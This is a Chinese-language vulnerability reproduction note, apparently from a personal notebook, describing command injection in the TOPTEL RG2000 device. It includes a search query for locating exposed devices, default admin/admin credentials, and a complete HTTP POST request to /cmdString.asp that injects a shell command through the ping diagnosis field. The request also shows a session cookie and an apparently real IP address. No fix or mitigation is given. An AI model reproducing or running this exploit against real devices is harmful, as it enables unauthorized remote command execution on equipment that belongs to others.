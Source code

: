 # 深圳市拓普泰尔科技有限公司RG2000存在命令执行漏洞

# 一、漏洞简介
拓普泰尔是深圳市拓普泰尔科技有限公司，2018年10月28日在中国商标局注册成立的品牌，提供集成电路; 计算机硬件; 电传真设备; 芯片（集成电路）; 印刷电路板; 数据处理设备; 视频显示屏; 纤维光缆; 连接器（数据处理设备）; 集成电路卡等服务。深圳市拓普泰尔科技有限公司RG2000存在命令执行漏洞

# 二、影响版本
+ RG2000

# 三、资产测绘
```http
app="TOPTEL-RG2000"
```

![1722618708171-4d2e03b4-ee0b-4705-ad74-56a5b593643a.png](./img/7JxBmoSuzuvUDeWr/1722618708171-4d2e03b4-ee0b-4705-ad74-56a5b593643a-728808.png)

# 四、漏洞复现
```plain
POST /cmdString.asp HTTP/1.1
Host: 
Content-Length: 90
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://58.18.212.238:11180
Referer: http://58.18.212.238:11180/index.html?rand=Nov-14-2022-18:11:039
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=0; user=admin; nonce=ffffffff015446cc0026259d; password=3d49ce727b199b6cdca0cf40c217b8d1
Connection: close

cmdString=rg_ping_diagnosis%0B%0D%09%0Acmd_diagnosis_dst_address%3D127.0.0.1%7Cls%0D%09%0A
```

admin/admin登录

通信检测处ping命令和traceroute存在命令执行漏洞

![1722620405428-275246cb-7a70-4bef-b880-d27a2161f073.png](./img/7JxBmoSuzuvUDeWr/1722620405428-275246cb-7a70-4bef-b880-d27a2161f073-669894.png)



> 更新: 2024-08-12 17:48:53  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hu8fngdtmgaf17yv>